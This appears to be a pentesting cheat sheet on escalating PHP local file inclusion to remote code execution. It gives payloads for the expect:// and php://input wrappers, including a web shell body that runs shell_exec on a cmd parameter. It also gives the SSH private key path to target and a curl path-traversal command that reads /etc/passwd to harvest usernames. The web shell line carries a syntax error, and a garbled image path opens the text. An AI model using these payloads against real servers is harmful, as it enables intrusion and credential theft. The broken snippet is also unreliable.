 

---

# LFI2RCE
## PHP Wrapper expect://lfi
- PHP expect:// allows execution of system commands
	```
	php?page=expect://ls
	```
- Below is the error received if the PHP expect wrapper is disabled:
	```
	Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
	```

## PHP Wrapper php://file
- PHP input://
	```
	#POST Request
	?page=php://input&cmd=ls
	# In BODY
	<?php echo shell_exec$($_GET['cmd']);?>
	```
	![](LFI php input.png)

## Include SSH Private Key
- `id_rsa` location
	```
	/home/<user>/.ssh/id_rsa
	```

1. Obtain list of usernames
	```
	curl -s http://$ip/test.php?file=../../../../etc/passwd | awk -F: '($3>=1000)&&($1!="nobody"){print $1}' | tee usernames.txt
	
	# Or copy /etc/passwd file out manually into a file then pip it into 
	awk -F: '($3>=1000)&&($1!="nobody"){print $1}'
	```
